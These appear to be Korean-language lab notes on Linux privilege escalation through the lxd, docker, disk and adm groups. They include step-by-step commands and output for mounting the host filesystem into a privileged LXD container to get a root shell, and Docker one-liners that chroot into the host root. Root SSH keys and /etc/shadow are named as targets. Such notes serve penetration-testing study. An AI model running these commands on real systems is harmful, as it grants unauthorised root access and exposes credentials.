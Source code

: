 ## LXC/LXD
LXD는 Docker와 유사하며 Ubuntu의 컨테이너 관리자이다. 설치 시 모든 사용자가 LXD 그룹에 추가된다. LXD 컨테이너를 만들고 권한을 부여한 다음 `/mnt/root` 에서 호스트 파일 시스템에 액세스하여 권한을 확대 할 수 있다.

**lxd 그룹 확인**
```powershell
devops@NIX02:~$ id

uid=1009(devops) gid=1009(devops) groups=1009(devops),110(lxd)
```

**Alpine 이미지 압축 풀기**
```powershell
devops@NIX02:~$ unzip alpine.zip 

Archive:  alpine.zip
extracting: 64-bit Alpine/alpine.tar.gz  
inflating: 64-bit Alpine/alpine.tar.gz.root  
cd 64-bit\\ Alpine/
```

**LXD 초기화**
```powershell
devops@NIX02:~$ lxd init

Do you want to configure a new storage pool (yes/no) [default=yes]? yes
Name of the storage backend to use (dir or zfs) [default=dir]: dir
Would you like LXD to be available over the network (yes/no) [default=no]? no
Do you want to configure the LXD bridge (yes/no) [default=yes]? yes

/usr/sbin/dpkg-reconfigure must be run as root
error: Failed to configure the bridge
```
(LXD 사용법 링크: [https://www.digitalocean.com/community/tutorials/how-to-set-up-and-use-lxd-on-ubuntu-16-04](https://www.digitalocean.com/community/tutorials/how-to-set-up-and-use-lxd-on-ubuntu-16-04) )

**로컬 이미지 불러오기**
```powershell
devops@NIX02:~$ lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine

Generating a client certificate. This may take a minute...
If this is your first time using LXD, you should also run: sudo lxd init
To start your first container, try: lxc launch ubuntu:16.04

Image imported with fingerprint: be1ed370b16f6f3d63946d47eb57f8e04c77248c23f47a41831b5afff48f8d1b
```

**security.privileged를 true로 설정하여 privileged container 실행**
```powershell
devops@NIX02:~$ lxc init alpine r00t -c security.privileged=true

Creating r00t
```

**host file system 마운트**
```powershell
devops@NIX02:~$ lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true

Device mydev added to r00t
```

마지막으로 컨테이너 인스턴스 내부에서 셸을 생성한다. 이제 root 권한으로 마운트된 파일 시스템을 탐색할 수 있다. 예를 들어, 호스트의 루트 디렉토리 내용에 액세스하려면 `cd /mnt/root/root` 로 이동하면 된다.
```powershell
devops@NIX02:~$ lxc start r00t
devops@NIX02:~/64-bit Alpine$ lxc exec r00t /bin/sh

~ # id
uid=0(root) gid=0(root)
~ # 
```

## Docker
사용자를 docker group에 놓는건 근본적으로 root 권한과 다르지 않다. `docker run -v /root:/mnt -it ubuntu` 는 볼륨으로 마운트된 호스트 파일 시스템의 /root 디렉토리에 새 Docker 인스턴스를 만든다. 컨테이너가 시작되면 마운트된 디렉토리를 탐색하고 root 사용자에 대한 SSH 키를 검색하거나 추가할 수 있다. 물론 /etc/shadow도 마찬가지로 가능하다.
```sh
# root 경로만 접근, .ssh 에 키를 업로드하거나 등 행위 가능
docker run -v /root:/mnt -it ubuntu
# 전 경로 접근
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

## Disk
disk 그룹에 있는 사용자들은 /dev/sda1과 같은 /dev의 어떠한 장치에도 full access가 가능하다. 이러한 권한이 있는 공격자는 `debugfs` 를 사용하여 전체 파일 시스템에 root 권한으로 접근이 가능하다.

## ADM
adm 그룹 사용자들은 `/var/log` 의 모든 로그를 읽을 수 있다. 직접적인 root 접근은 안되지만, 민감한 데이터를 로그파일로 얻거나 사용자 행동과 cron job을 살펴볼 수 있다.

**adm 그룹 예시**

```powershell
secaudit@NIX02:~$ id

uid=1010(secaudit) gid=1010(secaudit) groups=1010(secaudit),4(adm)
```